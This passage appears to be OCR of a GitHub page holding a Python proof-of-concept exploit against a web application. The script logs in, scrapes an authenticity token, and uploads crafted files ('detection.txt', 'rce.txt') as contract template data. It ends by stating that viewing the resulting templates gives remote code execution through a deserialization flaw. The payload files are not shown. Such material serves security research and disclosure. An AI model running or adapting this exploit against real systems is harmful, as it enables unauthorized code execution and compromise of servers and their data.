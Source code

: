 ```python
    login_page = session.get(f"{base_url}/login")
    login_page.raise_for_status()

    authenticity_token = getAuthenToken(login_page.text)

    login_payload = {
        "username": username,
        "password": password,
        "authenticity_token": authenticity_token
    }

    response = session.post(f"{base_url}/login", data=login_payload)
    response.raise_for_status()

def deserializationRCE(typd):
    with open(typd, "rb") as file:
        content_data = file.read()

    contracts_page = session.get(f"{base_url}/contract_templates/new")
    contracts_page.raise_for_status()

    authenticity_token = getAuthenToken(contracts_page.text)

    contracts_payload = {
        "authenticity_token": authenticity_token,
        "name": "hh",
        "description": "hh",
        "content": "hh",
        "commit": "Create Template",
        "data": content_data
    }

    response = session.post(f"{base_url}/contract_templates", data=contracts_payload)

login()
deserializationRCE('detection.txt')

deserializationRCE('rce.txt')
```

Running this script adds two templates. Viewing those templates results in RCE.
